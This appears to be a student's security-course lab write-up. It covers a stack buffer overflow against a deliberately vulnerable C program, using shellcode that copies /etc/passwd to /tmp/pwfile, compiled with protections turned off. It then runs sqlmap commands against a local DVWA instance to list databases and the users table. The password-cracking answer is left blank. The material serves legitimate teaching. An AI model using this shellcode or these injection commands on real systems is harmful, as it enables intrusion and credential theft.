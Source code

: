 # Lab #1, 22110082, Nguyen Duc Tri, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

 **Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 
## 1. Create the assembly shell code named `shellcode.asm` and the given C code named `vuln.c`:
*Copy the assembly code above and save it in the assembly file:* <br> 

## 2. First, compile the Assembly ShellCode: 
*Use `nasm` to assemble the code into an object file:*

```sh
nasm -f elf32 -o shellcode.o shellcode.asm
```

*Link the object file to create an executable file using `ld`:* 

```sh
ld -m elf_i386 -o shellcode shellcode.o
```

*Observe the shellcode in machine format:* 

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
*The printed result shows a 97 bytes long:*

![image](https://github.com/user-attachments/assets/200af312-f8e9-436d-95af-dd62ac86c2a6)



## 3. Next, compile the C program: 
*Compile the C code using `gcc`:* <br> 

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


## 4. Stack Frame Visualization: 
![image](https://github.com/user-attachments/assets/9a7f47b2-94da-4e3f-8255-f84f2c618f6f)

**Conclusion:** *The program has a vulnerability in the `strcpy` call, where an attacker can overflow the buffer variable in `main`. This allows us to overwrite the saved return address on the stack.* 

## 5. Prerequisite for the attack: 
*In this case, I will use a Return-to-lib-c attack* <br> 
*First, we need to know the address of ebp:* 

```sh
disas main
```
![image](https://github.com/user-attachments/assets/dc32b882-b763-448c-8f0e-d8a593cb7064)




## 6. Conduct an attack: 
*Construct a payload*: 

![image](https://github.com/user-attachments/assets/403a0863-cb42-41a9-9e86-41d9bdde6f65)

```sh
python exploit.py | ./vuln
```


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
## 1. Identify the vulnerable URL: 
*Let proceed to the cookies when entering ID = 2* 

![image](https://github.com/user-attachments/assets/ef903365-d7e6-419e-9d59-59052b30ef77)

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"    
```
![image](https://github.com/user-attachments/assets/42916b8d-1481-4c4a-a85b-92322cb1efc4)

*Revealing the DVWA tables:*
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"  -D dvwa --tables 
```
![image](https://github.com/user-attachments/assets/0a43a875-621d-4dd9-bf8a-12ede9fa3cf2)


*Revealing the database schemas:*

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --schema --batch
```
![image](https://github.com/user-attachments/assets/ea59799d-ff40-45ed-be1a-a9a845666ea4)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
*To observe the users information within DVWA, we can use:* <br> 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --columns -T users --batch  
```
![image](https://github.com/user-attachments/assets/946a78a8-58b5-48a0-a967-63884a581622)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:










